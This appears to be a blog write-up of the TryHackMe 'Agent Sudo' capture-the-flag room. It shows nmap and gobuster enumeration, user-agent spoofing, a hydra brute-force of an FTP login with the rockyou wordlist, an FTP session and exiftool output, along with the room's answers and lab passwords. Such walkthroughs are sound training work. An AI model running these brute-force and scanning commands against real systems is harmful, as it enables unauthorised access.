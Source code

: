 ```yaml
---
layout: post
title: Agent Sudo
categories: [CyberSecurity, CTF]
tags: [thm, easy, nmap, gobuster, hydra, exiftool, xxd, binwalk, zip2john, JohnTheRipper, 7z, Cyberchef, steghide]
---
```

## Task 1: Author Note
Welcome to another THM exclusive CTF room. Your task is simple, capture the flags just like the other CTF room. Have Fun!

If you are stuck inside the black hole, post on the forum or ask in the TryHackMe discord.

## Task 2: Enumerate
Enumerate the machine and get all the important information

### Questions

Q1 How many opens Ports?
```
3
```
Q2 How you redirect yourself to a secret page?
```
user-agent
```
Q3 What is the agent name?
```
chris
```
### MyWalk

Beginning with an **nmap** scan, and save the results on nmap/initial for future reference:

```bash
nmap -T4 -sC -sV -Pn -oN nmap/initial 10.10.188.70
```

Now I try to get the Q2 answer, using **gobuster**:


```bash
gobuster dir --url http://10.10.26.150 -w //usr/share/wordlists/dirb/common.txt | tee gobuster.txt
```

No secret page revealed...  
Hint: Answer format: xxxx-xxxxx  
visiting the page we got:

```
Dear agents,
Use your own codename as user-agent to access the site.

From,
Agent R

```
it seems Q2 is "user-agent"

The hint for Q3:  
"You might face problem on using Firefox. Try 'user agent switcher' plugin with  user agent: C"  
So, let's install user agent switcher plugin, and set the user agent as "C".  After reloading the page I got:
```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!


From,

Agent R
```
Now we know the Q3

## Task 3: Hash cracking and brute-force

Done enumerate the machine? Time to brute your way out.

### Questions
Q1. Hint: "Hail hydra!"  
Q1. FTP password

```
crystal
```

Q2. Zip file password

```
alien
```

Q3. steg password

```
Area51
```

Q4 Who is the other agent (in full name)?

```
james
```

Q5 SSH password

```
hackerrules!
```

### MyWalk

For Q3 lets try **hydra** as sugested by the hint:

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.149.150 -t 4
...
[21][ftp] host: 10.10.149.150 login: chris password: crystal
1 of 1 target successfully completed, 1 valid password found
```
Q1 done

Now lets connect to the ftp server with chris:crystal

```bash
└─$ ftp chris@10.10.149.150
Connected to 10.10.149.150.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||36713|)
150 Here comes the directory listing.
-rw-r--r-- 1 0 0 217 Oct 29 2019 To_agentJ.txt
-rw-r--r-- 1 0 0 33143 Oct 29 2019 cute-alien.jpg
-rw-r--r-- 1 0 0 34842 Oct 29 2019 cutie.png
226 Directory send OK.
ftp>
```

We can´t see any zip file refered in Q2

After dowloading the 3 files and opened the To_agentJ.txt we got...

```

Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,

Agent C

```

So we need to use **exiftool** to extract login password.

[https://exiftool.org/examples.html](https://exiftool.org/examples.html)


```bash
└─$ exiftool cute-alien.jpg
ExifTool Version Number : 12.67
File Name : cute-alien.jpg
Directory : .
File Size : 33 kB
File Modification Date/Time : 2019:10:29 08:22:37-04:00
File Access Date/Time : 2024:01:10 11:49:00-05:00
File Inode Change Date/Time : 2024:01:10 11:49:00-05:00
File Permissions : -rw-r--r--
File Type : JPEG
File Type Extension : jpg
MIME Type : image/jpeg
JFIF Version : 1.01
Resolution Unit : inches
X Resolution : 96
Y Resolution : 96
Image Width : 440
Image Height : 501
Encoding Process : Baseline DCT, Huffman coding
Bits Per Sample : 8
Color Components : 3
Y Cb Cr Sub Sampling : YCbCr4:2:0 (2 2)
Image Size : 440x501
Megapixels : 0.220

└─$ exiftool cutie.png
ExifTool Version Number : 12.67
File Name : cutie.png
Directory : .
File Size : 35 kB
File Modification Date/Time : 2019:10:29 08:33:51-04:00
File Access Date/Time : 2024:01:10 11:49:17-05:00
File Inode Change Date/Time : 2024:01:10 11:49:17-05:00
File Permissions : -rw-r--r--
File Type : PNG
File Type Extension : png
MIME Type : image/png
Image Width : 528
Image Height : 528
Bit Depth : 8
Color Type : Palette
Compression : Deflate/Inflate
Filter : Adaptive
Interlace : Noninterlaced
Palette : (Binary data 762 bytes, use -b option to extract)
Transparency : (Binary data 42 bytes, use -b option to extract)
Warning : [minor] Trailer data after PNG IEND chunk
Image Size : 528x528
Megapixels : 0.279
```